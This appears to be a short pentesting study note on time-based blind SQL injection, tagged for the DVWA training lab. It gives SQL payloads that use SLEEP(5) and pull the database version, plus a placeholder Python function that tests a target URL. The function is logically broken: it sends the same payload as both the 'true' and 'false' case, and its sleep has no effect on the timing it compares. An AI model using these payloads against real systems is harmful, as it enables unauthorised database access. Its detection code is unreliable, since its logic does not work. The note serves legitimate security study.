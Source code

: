 # Time-Based Blind Query SQL Injection

Search Tag(s): #blind-sql-injection #dvwa

TODO: Write a python script to bruteforce queries in order to automate blind SQL injection

https://oncybersec.com/automating-sql-injection/

```sql
' OR IF(1=1, SLEEP(5), 0)#
```

```sql
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

This is just for reference but will be removed once the information is filled.

```python
# Check if the response time increases when the condition is true
def time_based_blind_sql_injection(target_url, injection_payload):
    response_time_when_condition_true = send_request(target_url, injection_payload)
    sleep(5)  # Introduce a delay
    response_time_when_condition_false = send_request(target_url, injection_payload)

    if response_time_when_condition_true > response_time_when_condition_false:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' AND IF(1=1, SLEEP(5), 0) --"

result = time_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```

---
## References

- [Learning Web Pentesting With DVWA Part 3: Blind SQL Injection](http://moinkhans.blogspot.com/2020/03/learning-web-pentesting-with-dvwa-part_28.html)
